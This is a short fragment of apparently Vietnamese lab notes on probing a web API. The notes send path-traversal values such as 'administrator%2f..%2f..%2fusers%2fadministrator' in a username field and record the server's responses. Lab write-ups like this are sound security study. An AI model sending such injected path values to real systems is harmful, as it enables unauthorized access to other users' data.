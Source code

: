 input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=administrator%2f..%2f..%2fusers%2fadministrator

![alt text](image-34.png)

output: {"result":"*****@normal-user.net","type":"email"}

-> note (1.1) có khả năng server-side sử dụng REST URL có cấu trúc: .../users/*username* 

- (1.2)

input: csrf=TcFWsJPxOJ2IyUkHkZpRsMysbOnRjzNp&username=..%2f..%2f..%2f

![alt text](image-35.png)

output:
{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}
